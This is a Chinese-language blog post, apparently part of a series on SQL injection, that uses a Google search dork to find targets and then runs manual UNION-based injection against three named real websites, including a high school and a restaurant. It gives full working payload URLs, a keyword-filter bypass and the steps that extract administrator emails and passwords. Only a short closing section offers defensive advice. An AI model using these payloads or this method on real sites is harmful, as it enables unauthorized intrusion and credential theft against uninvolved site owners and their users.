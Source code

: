 ## 计算机病毒与入侵关于SQL注入的研究（三）
### 写在前面
上次我们研究了怎样通过union进行托库，本次我们玩点真的：***利用google搜索引擎进行手动注入***

### 搜索引擎的使用
使用google搜索```inurl:.php?id=MTM=```，这里inurl指的是在url内有后面字符串的网站，后面的id=MTM=是指base64加密后的id=13。查询出来结果如下：
![third1.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third1.png)

我自己经过删选测试，选取了三个网站：
- [http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9MSB1bmlvbiBzZWxlY3QgMSx2ZXJzaW9uKCksZGF0YWJhc2UoKSw0LDUsNiw3LDgsOSwxMCwxMSwxMiwxMywxNCwxNQ==](http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9MSB1bmlvbiBzZWxlY3QgMSx2ZXJzaW9uKCksZGF0YWJhc2UoKSw0LDUsNiw3LDgsOSwxMCwxMSwxMiwxMywxNCwxNQ==)
- [http://www.thzx.net/e/pl/?classid=34&id=1373](http://www.thzx.net/e/pl/?classid=34&id=1373) 一所高中
- [http://www.zaaffran.com/testimonials.php?id=MTM=](http://www.zaaffran.com/testimonials.php?id=MTM=) 一家印度餐厅主页

本次就对这三个网站进行破解。
先回顾一下我们上次自己研究的几个破解步骤：
- 测试能否被注入
- 通过union测表段数目
- 通过mysql函数得到数据库的名称
- 通过INFORMATION_SCHEMA查询表的名称和表内行的名称
- 获取想要的数据

***我们借助[http://www1.tc711.com/tool/BASE64.htm](http://www1.tc711.com/tool/BASE64.htm)这个base64工具进行base64加解密***

### 第一个网站的SQL注入
- 测试是否能被注入，访问[http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9Mg==](http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9Mg==)，含义是```id=13 and 1=2```，返回的结果如下图，表明是可以注入的
![third2.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third2.png)

- 通过union测表段数目，这一个就比较无聊了，我们从1到30挨个测（30以上直接放弃，要累死= - =），最后测试出来表段数目是15，访问[http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9MSB1bmlvbiBzZWxlY3QgMSwyLDMsNCw1LDYsNyw4LDksMTAsMTEsMTIsMTMsMTQsMTU=](http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9MSB1bmlvbiBzZWxlY3QgMSwyLDMsNCw1LDYsNyw4LDksMTAsMTEsMTIsMTMsMTQsMTU=)，含义是```id=13 and 1=1 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15```，可以看到有九个显示位，显示位很多，就用不到concat()函数了，结果如下图：
![third3.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third3.png)

- 通过mysql函数得到数据库的名称，访问[http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9MSB1bmlvbiBzZWxlY3QgMSxkYXRhYmFzZSgpLDMsNCw1LDYsNyw4LDksMTAsdmVyc2lvbigpLDEyLDEzLDE0LDE1](http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9MSB1bmlvbiBzZWxlY3QgMSxkYXRhYmFzZSgpLDMsNCw1LDYsNyw4LDksMTAsdmVyc2lvbigpLDEyLDEzLDE0LDE1),含义是```id=13 and 1=1 union select 1,database(),3,4,5,6,7,8,9,10,version(),12,13,14,15```，我们可以看到如下图的结果，表明数据库的名称是csearch，版本是4.0.25
![third4.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third4.png)

- 通过INFORMATION_SCHEMA查询表的名称和表内行的名称，访问[http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9MSB1bmlvbiBzZWxlY3QgMSwyLDMsdGFibGVfbmFtZSw1LDYsNyw4LDksMTAsMTEsMTIsMTMsMTQsMTUgZnJvbSBpbmZvcm1hdGlvbl9zaGNlbWEg](http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9MSB1bmlvbiBzZWxlY3QgMSwyLDMsdGFibGVfbmFtZSw1LDYsNyw4LDksMTAsMTEsMTIsMTMsMTQsMTUgZnJvbSBpbmZvcm1hdGlvbl9zaGNlbWEg)，含义是```id=13 and 1=1 union select 1,2,3,table_name,5,6,7,8,9,10,11,12,13,14,15 from information_shcema```，结果竟然是没有权限！！！
![third5.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third5.png)

由于第四步发现这个用户没有权限，我决定放弃，盲注猜表名和错误回显法的耗时较长，同时这个网站应该主要是用来搜索，我尝试了没有users表和admins表就放弃了= - =。

### 第二个网站的SQL注入
- 测试能否被注入，访问[http://www.thzx.net/e/pl/?classid=34&id=1373/*ABC*/](http://www.thzx.net/e/pl/?classid=34&id=1373/*ABC*/)发现没有问题，继续
![third6.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third6.png)

- 通过union测表段数目，访问[http://www.thzx.net/e/pl/?classid=34&id=1373/*ABC*/and/*ABC*/select/*ABC*/1,2,3,4,5](http://www.thzx.net/e/pl/?classid=34&id=1373/*ABC*/and/*ABC*/select/*ABC*/1,2,3,4,5)，惊喜地看到了360= - =，网站过滤了select
![third7.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third7.png)
我又查了几下，看到可以这样访问[http://www.thzx.net/e/pl/?classid=34&id=1373/*ABC*/and/*ABC*/s/*ABC*/e/*ABC*/l/*ABC*/e/*ABC*/c/*ABC*/t/*ABC*/1,2,3,4,5](http://www.thzx.net/e/pl/?classid=34&id=1373/*ABC*/and/*ABC*/s/*ABC*/e/*ABC*/l/*ABC*/e/*ABC*/c/*ABC*/t/*ABC*/1,2,3,4,5)，这样绕过了select封锁，然而程序一点错误回显也没有
![third8.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third8.png)
好吧，看起来没有漏洞的样子，放弃

### 第三个网站的SQL注入
- 测试能否被注入，访问[http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9Mg==](http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9Mg==)，含义是```id=13 and 1=2```，结果如下，可以发现页面没有显示，证明是可以注入的
![third9.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third9.png)

- 通过union测表段数目，从1到30挨个测试，运气不错，上来直接猜到了是7,访问[http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLDMsNCw1LDYsNw==](http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLDMsNCw1LDYsNw==)，结果如下图所示，可以看到有三个显示位
![third10.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third10.png)

- 通过mysql函数得到数据库的名称，访问[http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSxkYXRhYmFzZSgpLHZlcnNpb24oKSw0LDUsNiw3](http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSxkYXRhYmFzZSgpLHZlcnNpb24oKSw0LDUsNiw3),含义是```id=14 and 1=2 union select 1,database(),version(),4,5,6,7```，结果如下图，得到数据库的名称是zaaffran_zaaffran，数据库版本是5.5.2
![third11.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third11.png)

- 通过INFORMATION_SCHEMA查询表的名称和表内行的名称,访问[http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLHRhYmxlX25hbWUsNCw1LDYsNyBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXM=](http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLHRhYmxlX25hbWUsNCw1LDYsNyBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXM=),含义是```id=14 and 1=2 union select 1,2,table_name,4,5,6,7 from information_schema.tables```，可以看到五个数据表：
![third12.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third12.png)
这里只有五张表，而且都是系统表，所以我尝试了一下使用order by table_type,访问[http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLHRhYmxlX25hbWUsNCw1LDYsNyBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXMgb3JkZXIgYnkgdGFibGVfdHlwZQ==](http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLHRhYmxlX25hbWUsNCw1LDYsNyBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXMgb3JkZXIgYnkgdGFibGVfdHlwZQ==)，含义是```id=14 and 1=2 union select 1,2,table_name,4,5,6,7 from information_schema.tables order by table_type```
![third13.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third13.png)
可以发现报错了，我结合只有五条数据显示判断系统后面加入了limit 5这个子句，所以导致返回错误，因此访问[http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLHRhYmxlX25hbWUsNCw1LDYsNyBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXMgb3JkZXIgYnkgMSM=](http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLHRhYmxlX25hbWUsNCw1LDYsNyBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXMgb3JkZXIgYnkgMSM=)，含义是```id=14 and 1=2 union select 1,2,table_name,4,5,6,7 from information_schema.tables order by 1#```，这次显示结果如下，成功了！
![third14.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third14.png)
同时我们搜索到了adminusers表这个敏感的表，我决定对这个表进行查询，访问[http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLGNvbHVtbl9uYW1lLDQsNSw2LDcgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEuY29sdW1ucyB3aGVyZSB0YWJsZV9uYW1lPSdhZG1pbnVzZXJzJyBvcmRlciBieSAxIw==](http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLGNvbHVtbl9uYW1lLDQsNSw2LDcgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEuY29sdW1ucyB3aGVyZSB0YWJsZV9uYW1lPSdhZG1pbnVzZXJzJyBvcmRlciBieSAxIw==)，含义是```14 and 1=2 union select 1,2,column_name,4,5,6,7 from information_schema.columns where table_name='adminusers' order by 1#```，可以看到如下图所有的表段
![third15.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third15.png)

- 获取想要的数据,访问[http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLFVzZXJFbWFpbCxVc2VyUGFzc3dvcmQsNSw2LDcgZnJvbSBhZG1pbnVzZXJzIw==](http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLFVzZXJFbWFpbCxVc2VyUGFzc3dvcmQsNSw2LDcgZnJvbSBhZG1pbnVzZXJzIw==),含义是```14 and 1=2 union select 1,2,UserEmail,UserPassword,5,6,7 from adminusers#```,可以看到adminusers表里面的所有数据
![third16.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third16.png)

## 总结
本次我们进行了三次对公共网站的SQL注入，第一次和第二次不是很成功，第三次好歹是拿到数据了，尝试了一下扩大战果：
```select user,password from mysql.user```，失败= - =，估计是没有权限。
select hex(load_file())的方法也是失败，毕竟mysql版本是5.5，安全级别较高，想要load_file()还是很难的。

碰上的坑：注释使用--的时候，后面要带有一个空格

关于怎样规避SQL的一些经验：可以看到第一二次注入失败，一个是因为权限问题，一个是因为Select过滤的问题，这可以给我们一些防范SQL注入的启示：
- 限制死权限，单独搞一个数据库和用户暴露给外界，把查询的范围和权限限制死，你就算可以注入也然并卵，数据没有用啊！
- 直接过滤掉union或者select，不允许传的参数里面带有这个（360的做法）